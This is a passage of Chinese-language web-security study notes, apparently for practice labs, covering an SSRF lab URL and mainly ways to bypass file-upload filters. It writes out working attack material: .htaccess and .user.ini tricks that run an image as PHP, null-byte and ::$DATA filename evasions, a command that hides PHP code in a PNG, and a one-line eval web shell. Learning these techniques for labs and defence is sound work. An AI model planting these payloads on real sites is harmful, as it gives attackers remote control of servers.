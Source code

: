 ~~~shell
http://172.168.20.40:8005/vul/ssrf/ssrf_curl.php?url=
# ctf靶场
靶场：https://www.root-me.org
~~~



# 六、文件上传

文件上传绕过的方法

~~~shell
#文件上传的防范机制
1、服务器白名单
2、校验文件内容头部
3、强制重命名
4、不给执行权限
# 绕过的办法
前端：
	1、修改文件名
	2、修改content-type
后端：
	1、上传配置文件：httpd.conf、.htaccess、.user.ini
	2、文件上传路径：%00
	3、文件后缀名：
		* ::$DATA(放在文件名后用来绕过黑名单，解析的时候会删掉,如 1.php::$DATA)
		* XXX(放在文件名后用来绕过黑名单，解析的时候会忽略。如1.php.xxx)
	3、木马和图片打包(会读取图像前端数据)：使用文件包含漏洞，先运行include.php(在网站访问，再访问图片就以php运行)
	4、竞争机制：竞争：先保存，再判断，再删除
	使用burp-->intruter-->不停的发数据包
	::$DATA
	5、中间件解析漏洞
# 打开软件的方法
本地cmd
~~~



文件配置

~~~shell
# 1、.htaccess（网站目录下）
<FilesMatch "1.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
# 2、.user.ini
auto_prepend_file=1.jpg
* auto_prepend_file 指定一个文件，自动包含在要执行的文件后
* auto_append_file=1.jpg 指定一个文件，自动包含在要执行的文件前
# 4、 1.php.xxx
# 5、漏洞：php小于5.3-->%00（零零截断）
	get才行，post需要自己编码(在burp里面转换‘口’)
# 6、一句话木马
<?php @eval($_POST[11]);?>
@：关闭所有通知
eval：当成php执行
# 7、php3解析为php，在phpTutorial/apache/conf/httpd.conf
AddType application/x-httpd-php .php .php3 .php5 .pht .phtml（404）
# 8、打包
	copy result.png/b+1.php/a abc.png
	(result.png 和 1.php；b指的是binary，a指的是ascii码）追加>>
# phpinfo
~~~
